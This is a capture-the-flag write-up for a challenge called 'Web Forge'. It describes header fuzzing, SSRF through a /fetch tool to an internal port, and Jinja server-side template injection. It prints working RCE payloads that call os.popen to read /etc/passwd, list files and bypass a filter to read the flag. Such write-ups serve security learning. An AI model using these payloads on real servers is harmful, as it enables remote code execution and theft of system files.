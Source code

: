 #### Web Forge
- points earned: 363 

#### Notes
- The first thing I checked was robots.txt which shows `/admin` and `/fetch`. It also shares some intel, `# internal SSRF testing tool requires special auth header to be set to 'true'`.
- `/admin` returns a `403 - FORBIDDEN`
- `/fetch` also returns a `403 - FORBIDDEN` but also contains `403 Forbidden: missing or incorrect SSRF access header` in its response body.
- So at this point it would seem that I need to discover a request header and set it to true in order to access `/fetch`
- I manually tried a few headers that I could think of but none would let me into `fetch`.
- Eventually I ended up trying `fuff` to check against a list of headers and found that `Allow: true` was the one I was looking for. (lol because I didn't guess this)
- Now that I have access on `fetch` and it appears to be a tool that will send web requests for me, I want to try and use it to access `/admin`.
- Trying `http://127.0.0.1/admin` results in the below output
    ```
    HTTPConnectionPool(host='127.0.0.1', port=80): Max retries exceeded with url: / (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7989bc777ac0>: Failed to establish a new connection: [Errno 111] Connection refused'))
    ```
- I see `Connection refused` which makes me think there's no server where I tried to send the request.
- Perhaps a different port?  I manually tried a bunch of standard ports (3000, 5000, etc) and eventually got a different response for port 8000. That response contained a helpful error `Missing template parameter`.
- Trying `http://127.0.0.1:8000/admin?template=meow` now gives me a response without errors and reflects my input, `meow`, into the response
- After some messing around with this, I started to wonder if the parameter name `template` was hinting that this input is being used in a template.
- I then tried `http://127.0.0.1:8000/admin?template={{4*4}}` which returned a response which contained `16` and confirms SSTI.

#### Solution
- I used the following payload, which I had in my notes, to confirm RCE.
    ```python
    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /etc/passwd')|attr('read')()}}
    ```
- I used the following payload to list the contents of the current directory and could see `flag.txt` was in there.
```python
http://127.0.0.1:8000/admin?template={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -l')|attr('read')()}}
```
- I then tried `cat flag.txt` to read the flag but got a response `Nope` which feels like it was caught by a sanatizer.
- Then I just tried obfuscating the `.` in `flag.txt` with `\x2e` and the flag was returned.  Final payload below.
```python
http://127.0.0.1:8000/admin?template={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag\x2etxt')|attr('read')()}}
```